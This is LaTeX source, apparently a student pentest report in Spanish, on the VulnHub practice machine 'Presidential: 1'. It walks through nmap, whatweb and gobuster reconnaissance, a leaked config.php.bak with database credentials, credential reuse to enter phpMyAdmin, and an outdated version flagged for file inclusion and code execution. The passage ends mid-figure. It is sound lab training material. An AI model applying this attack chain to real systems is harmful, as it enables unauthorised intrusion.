\documentclass[a4paper]{article}

\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}               %Caracteres de 
\usepackage{graphicx}                     %inserción de imagenes
\usepackage[table,xcdraw]{xcolor}         %representación de colores
\usepackage[margin=2cm, top=2cm, includefoot]{geometry} %Aplicar margenes
\usepackage{fancyhdr}                     % Estilos de página
\usepackage[hidelinks]{hyperref}          %Hypervíncuulos
\usepackage{setspace}                     %Mayor espacio entre lineas
\usepackage{parskip}                      %Arreglar representación de parrados
\usepackage[figurename=Imagen]{caption}   %%cambiar el nombre del caption "figure" por "Imagen"
\usepackage{ragged2e}                     %%para cerrar un centering 
\usepackage{float}                        %% Permite posicionar correctamente las figuras
\usepackage{listings}                      %% Para la inserción de código
\setstretch{1.2}                          %Definir el espaciado entre lineas
\setlength{\parindent}{0pt}
\setlength{\parskip}{0.8em plus 0.5em minus 0.2em}  %Establece espacio entre párrafos 
\setlength{\parfillskip}{\parindent plus 1fill}     %Espaciado entre palabras



%------------Configuración de código-------------

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}
\renewcommand{\lstlistingname}{Código}

%--------------------------------------------------





%------------Variables personalizadas-------------
\newcommand{\logoPortada}{./vuln.png}
\newcommand{\casablanca}{./white.jpg}
\newcommand{\logoAcademia}{./logo.png}
\newcommand{\machineName}{Máquina Presidential: 1}
\newcommand{\startDate}{08 de Octubre de 2023}


%------------Box packages-------------
\usepackage{tikz,lipsum,lmodern}
\usepackage[most]{tcolorbox}


%------------Definir estilo de la página-------------
\usepackage{tikz,lipsum,lmodern}
\usepackage{tcolorbox}


%------------Variables Colores-------------
\definecolor{bluePortada}{HTML}{146c8a}
\definecolor{redText}{HTML}{FF0000}
\pagestyle{fancy}
\fancyhf{}


\addto\captionsspanish{\renewcommand{\contentsname}{Índice}} % modificar el nombre de indice
\setlength{\headheight}{75.2pt}     
\lhead{\includegraphics[width=4cm]{\logoAcademia}} %Icono izquierda Inicio de hoja
\rhead{\includegraphics[width=2cm]{\logoPortada}}
\renewcommand{\headrulewidth}{3pt}      %ancho de barra
\renewcommand{\headrule}{\hbox to\headwidth{\color{bluePortada}\leaders\hrule height \headrulewidth\hfil}}  %color de barra


\begin{document}            %Inicio del documento

%------------Configuración de cuadros de definición-------------


  \newtcolorbox{definicion}{
    breakable,
    enhanced,
    colback=white,
    colframe=bluePortada!75!black,
    arc=0mm,
    boxrule=1pt,
    leftrule=12mm,
    fonttitle=\bfseries,
    coltitle=blue!75!black,
    title=Definición,
    attach title to upper=\par,
  }


  \cfoot{\thepage}          % Para ver numeración en las páginas
    \begin{titlepage}       
        \centering
        \includegraphics[width=0.5\textwidth]{\logoPortada}\par\vspace{1cm}
        {\scshape\LARGE \textbf{Informe  técnico}} \par\vspace{0.4cm}
        {\Huge\textcolor{bluePortada}{\textbf{\machineName}}}\par\vspace{2cm}
        \vfill\vfill
        \includegraphics[width=\textwidth, height=10cm]{\casablanca}
        \vfill

        \begin{tcolorbox}[width=\textwidth,colback=red!5!white,colframe=red!75!black]
            \centering
            Este documento es confiencial y contiene información sensible.\\
            No debería ser impreso o compartido con terceras entidades
        \end{tcolorbox}
        
        \vfill
        {\large \startDate\par}
        \vfill
    \end{titlepage}                                    
    
%-------------------------indice-------------------------------%
\clearpage
\tableofcontents
\clearpage

%-----------------------------------------------------------------%
%-------------------------Primera sección-------------------------------%
%-----------------------------------------------------------------%

\section{Antecedentes}
El presente documento recoge los resultados obtenidos durante la fase de auditoría realizada a la
\textbf{\machineName}, enumerando todos los vectores de ataque encontrados asi como la explotación 
realizada a cada uno de estos.

  Esta máquina ha sido descargada de la plataforma de \href{https://www.vulnhub.com/}{\textbf{\color{bluePortada}Vulnhub}},
  es una plataforma para personas interesadas en aprender ciberseguridad ofensiva.

  A continuación se proporciona el enlace hacia la máquina.
  
  \vspace{0.3cm}

  \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
    colback=blue!5!white,colframe=blue!75!black,colbacktitle=bluePortada!80!black,
    title=Dirección url,fonttitle=\bfseries,
    boxed title style={size=small,colframe=red!50!black} ]
    \centering
    \href{https://www.vulnhub.com/entry/presidential-1,500/}{\textbf{\color{bluePortada}\machineName}}
  \end{tcolorbox}

  \vspace{0.5cm}        %%Espaciado

  %%Inserción de imagen 

  \begin{figure}[h]
    \centering
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./presidential.png}}
    \caption{Página principal del servicio web de la máquina}
  \end{figure}

  
%----------------------------------------------------------------------------%
%------------------------------ Objetivos ---------------------------------%
%----------------------------------------------------------------------------%

  \section{Objetivos}
  
  Los objetivos de la presente auditoría de seguridad informática se enfocan en la identificación
  de posibles vulnerabilidades en la máquina \textbf{\color{bluePortada}\machineName} con el proposito
  de garantizar la integridad y la confidencialidad de la información almacenada en ella.
  
  Con este fin se ha llevado a cabo un analisis exhaustivo de todos los servicios detectados que
  encontraban expuestos en el servidor, recopilando información detellada de aquellos que representan un
  riesgo potencial desde el punto de vista de la seguridad.
  
\clearpage

%----------------------------------------------------------------------------%

\subsection{Alcance}                 %%subseccion

A continuación se representan los objetivos a cumplir para esta auditoría
\begin{itemize}
  \item Identificar los puertos y servicios vulnerables
  \item Realizar una explotación de las vulnerabilidades encontradas
  \item Conseguir acceso al mediante la explotación de los servicios vulnerables identificados
  \item Enumerar vías potenciales de elevar privilegios en el sistema una vez comprometido
\end{itemize}

%----------------------------------------------------------------------------%

\subsection{Impedimentos y limitaciones}

Durante el proceso de auditoría esta terminantemente prohibido realizar alguna de las siguientes
actividades
\begin{itemize}
  \item Realizar tareas que puedan ocacionar una \textbf{denegación de servicio} o afectar a la
  disponibilidad de los servicios expuestos.
  \item Borrar o alterar archivos residentes en el servidor asi como registros de bases de datos una vez que el sistema haya sido comprometido.
\end{itemize}

%----------------------------------------------------------------------------%

\subsection{Resumen general}
Se realizó la auditoría de la \textbf{\machineName}, durante el proceso se han analizando 
los siguientes factores.
\begin{itemize}
  \item Reconocimiento de servicios expuestos
  \item Reconocimiento de de rutas en servicios web
  \item Reconocimiento de subdominios
  \item Vulnerabilidades
\end{itemize}
\vspace{0.4cm}

Se listan a continuación una serie de vulnerabilidades en los servicios expuestos las
cuales han permitido obtener acceso privilegiado al servidor y a todos los datos dentro
del mismo. 

\vspace{0.4cm}
\begin{itemize}
  \item Información sensible expuesta en archivos del servidor web
  \item Version vulnerable del servicio web de base de datos
  \item Reutilización de contraseñas
  \item Archivos vulnerables a escaladas de privilegios dentro del servidor
\end{itemize}

\clearpage
%----------------------------------------------------------------------------%
%-------------------------- Reconocimiento ----------------------------------%
%----------------------------------------------------------------------------%
\section{Reconocimiento}
\subsection{Enumeración de servicios expuestos}

\vspace{0.2cm}

A continuación se describe la evidencia acerca de los puertos y servicios identificados
durante el proceso de reconocimiento utilizando la herramienta \textbf{Nmap} 


\begin{figure}[h]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth]{./ataccking/nmap.png}}
  \caption{Enumeración de puertos con nmap}
\end{figure}

\vspace{0.4cm}
En este caso de identificaron dos puertos activos corriendo por el protocolo TCP
\vspace{0.5cm}

%% Representando nodos
\centering
\begin{tikzpicture}[node distance=2cm, every node/.style={rectangle, draw, fill=white}]
  \node (center) {TCP};
  \node (port1) [below left of=center, node distance=3cm] {Puerto 80};
  \node (port2) [below right of=center, node distance=3cm] {Puerto 2082};
  \draw (center) -- (port1);
  \draw (center) -- (port2);
\end{tikzpicture}

\vspace{0.5cm}
\justifying     %%quitamos centering

Asimismo, no se han encontrado puertos a través de otros protocolos, por lo que se priorizará
auditar los puertos identificados en el primer escaneo efectuado.

%--------------------------Sub seccionEnumeracion------------------------------------%
\clearpage
\subsection{Enumeración de servicios web}

A continuación, se representa los resultados obtenidos con la herramienta \textbf{whatweb},
una herramienta de reconocimiento web que se utiliza para identificar tecnologías web
específicas que se emplean en un sitio web, tras aplicar un reconocimiento sobre el 
servicio http corriendo en el puerto 80.

%%Imagen whatweb
\begin{figure}[h]
  \centering
  \setlength{\fboxrule}{0.8pt}
  \fbox{
\includegraphics[width=\textwidth, height=1.5cm]{./ataccking/whatweb.png}}
  \caption{Enumeración del servicio http}
\end{figure}

\vspace{0.4cm}
En los resultados obtenidos, es posible identificar las versiones para alguna de las
tecnologías existentes.
\vspace{0.4cm}

%% Tablas con filas y columnas
\begin{center}
  \begin{tabular}{c | c}
    \textbf{Tecnología}  & \textbf{Versión} \\
    \hline
    PHP & 5.5.38\\
    Apache & 2.4.6\\
  \end{tabular}
\end{center}
\vspace{0.4cm}
\justifying

Dentro de la información representada, también es posible identificar 2 correos electrónicos,
los cuales podrían ser utilizados de cara a un ataque de \textbf{Phishing}.\par


%Emails encontrados
\vspace{0.4cm}
\begin{center}
  \textbf{\texttt{contact@votenow.local}} \quad \textbf{\texttt{contact@example.com}}
\end{center}
\vspace{0.4cm}

El Phishing es un tipo de ataque informático que se utiliza para engañar a las personas
y asi obtener información confidencial, como contraseñas, información bancaria y financiera.
El ataque se lelva a cabo mediante el envío de correos electrónicos fraudulentos o mensajes
de texto que parecen legítimos y que solicitan al destinatario que proporcione información
confidencial.

Adicionalmente también ha sido posible identificar la versión de \textbf{Centos} que
se encuentra activa a través de un reconocimiento exhaustivo realizado con la herramienta
\textbf{wig}:

%Resultados de la herramienta wig
\begin{figure}
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=10cm]{./ataccking/wig.png}}
    \caption{Uso de la herramienta wig}
  \end{center}
\end{figure}
\vspace{0.4cm}


%--------------------------Sub seccionEnumeracion de subdominio------------------------------------%
\subsection{Enumeración de subdominios}


Una vez identificado el dominio \textbf{votenow.local}' gracias a los correos electrónicos,
se procedió a aplicar un ataque de fuerza bruta sobre el dominio principal con el fin de
identificar subdominios válidos.\par
Una vez finalizado el ataque de fuerza bruta estos fueron los resultados obtenidos.

%Resultados de la herramienta gobuster (subdominios)
\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./ataccking/subd.png}}
    \caption{Uso de gobuster para subdominios}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}


Se identifico el subdominio \textbf{datasafe.votenow.local} como un subdominio válido
este subdominio representó un punto crucial en la auditoría, ya que a través de este
se consiguió ingresar al sistema mediante la explotación de una vulnerabilidad existente
en \textbf{PhpMyAdmin}.


Cabe destacar que para que estos dominios y subdominios fue necesario asociar la ip 
de la máquina víctima al dominio en el archivo \textbf{/etc/hosts} del equipo atacante
debido a que el sistema aplica virtual hosting, una técnica utilizada en servidores
we para alojar múltiples sitios web con diferentes subdominios en una sola máquina 
física.

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./ataccking/hosts.png}}
    \caption{Archivo /etc/hosts del atacante}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}


\clearpage


%--------------------------Sub seccionEnumeracion de paneles de autenticación------------------------------------%
\subsection{Enumeración de paneles de autenticación}

Una vez descubierto el subdominio \textbf{datasafe.votenow.local}, representado en la imagen
\ref{fig: Identifiedsubdomains} de la página \pageref{fig: Identifiedsubdomains}
se encontró el siguiente panel de autenticación de \textbf{PhpMyAdmin}

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./ataccking/phpmyadmin.png}}
    \caption{Panel de autenticación de PhpMyAdmin}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}

\clearpage


  
%----------------------------------------------------------------------------%
%------------ identificación y explotación de vulnerabilidades --------------%
%----------------------------------------------------------------------------

\section{ identificación y explotación de vulnerabilidades }


%-----------------------Información confidencial expuesta-----------------------------%
\subsection{Información confidencial expuesta}

Durante la fase de reconocimiento con la herramienta gobuster analizando las rutas sin
utilizar los subdominios, encontramos una ruta \textbf{/config.php.bak}.\par
Gobuster es una herramienta de linea de comandos de código abierto que se utiliza para
buscar y enumerar recursos en servidores y sitios web 
\vspace{0.4cm}

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=16cm]{./ataccking/gobuster.png}}
    \caption{Uso de gobuster para búsqueda de rutas}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}

\vspace{0.4cm}

En la ruta encontrada se expone el contenido de un archivo php en el código fuente html.
\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=16cm]{./ataccking/phpbak.png}}
    \caption{Ruta /config.php.bak}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}
\vspace{0.4cm}

Se determinó que el archivo contenía la siguiente información privilegiada

\begin{itemize}
  \item Usuario de acceso a la base de datos
  \item Contraseña de acceso a la base de datos
  \item Nombre de la base de datos empleada
\end{itemize}

\vspace{0.4cm}

Estas credenciales si bien corresponden a los datos de acceso a \textbf{MySQL}, debido a
la reutilización de Usuario y contraseña pudimos acceder al panel de \textbf{PhpMyAdmin}
representado en la imagen \ref{fig: Identifiedsubdomains} de la página \pageref{fig: Identifiedsubdomains}

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./ataccking/phpaccess.png}}
    \caption{Inicio de sesión exitoso en el PhpMyAdmin}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}

\clearpage

%-----------------------Explotación del phphmyadmin-----------------------------%
\subsection{ Explotación del PhpMyAdmin }

Una vez ingresado al \textbf{PhpMyAdmin}, fue posible identificar la versión en uso

\vspace{0.2cm}

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
    \fbox{
\includegraphics[width=\textwidth]{./ataccking/phpversion.png}}
    \caption{Versión vulnerable de phpmyadmin}
    \label{fig: Identifiedsubdomains}
  \end{center}
\end{figure}

\vspace{0.2cm}

Esta versión corresponde a una versión antigua de PhpMyAdmin, lo que expone a varias
\textbf{vulnerabilidades críticas} identificadas:
\begin{itemize}
  \item Local file inclusion
  \item Remote code execution
\end{itemize}

\begin{figure}[H]
  \begin{center}
    \setlength{\fboxrule}{0.8pt}
